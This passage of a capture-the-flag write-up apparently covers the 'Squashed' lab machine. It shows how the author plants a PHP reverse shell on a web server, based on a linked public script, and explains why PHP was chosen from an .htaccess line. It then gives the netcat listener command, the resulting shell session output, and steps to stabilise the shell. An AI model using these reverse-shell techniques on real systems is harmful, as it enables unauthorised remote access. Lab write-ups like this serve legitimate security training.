 <figure><img src=".gitbook/assets/Untitled.png" alt=""><figcaption><p>web server file injection</p></figcaption></figure>

Now let’s craft our reverse shell properly, well no need to craft but there is this [link](https://github.com/pentestmonkey/php-reverse-shell) that got it figure out. We will get that <mark style="color:yellow;">php</mark> file and modifies the rev file we created in the server. One thing left to do is to run the listener and wait to intercept the connection. One may ask why i choose PHP, and it’s actually because of the info leaked in the <mark style="color:yellow;">.htaccess</mark> file

```bash
$ cat .htaccess
AddType application/x-httpd-php .htm .html
```

```bash
nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.191 38300
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:23:21 up 14:59,  1 user,  load average: 0.05, 0.03, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               05:24   14:59m  1:40   0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
alex
$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
$ groups
alex
```

Now let’s stabilize our shell by doing the following:

```bash
alex@squashed:/home/alex$ **script /dev/null -c bash**                                                          [12/12]
script /dev/null -c bash                                                                                           
Script started, file is /dev/null                                                                                  
alex@squashed:/home/alex$ **^Z**                                                                                       
[1]+  Stopped                 nc -nvlp 1234                                                                        
                                                                                                                   
d0n in ~/Squashed/Intell on ☁️                                                                                 
✦ 🕘 14:38:22 ✖  **stty raw -echo; fg**                                                                                
nc -nvlp 1234                                                                                                      
             **reset**                                                                                                 
alex@squashed:/home/alex$ export SHELL=bash
```
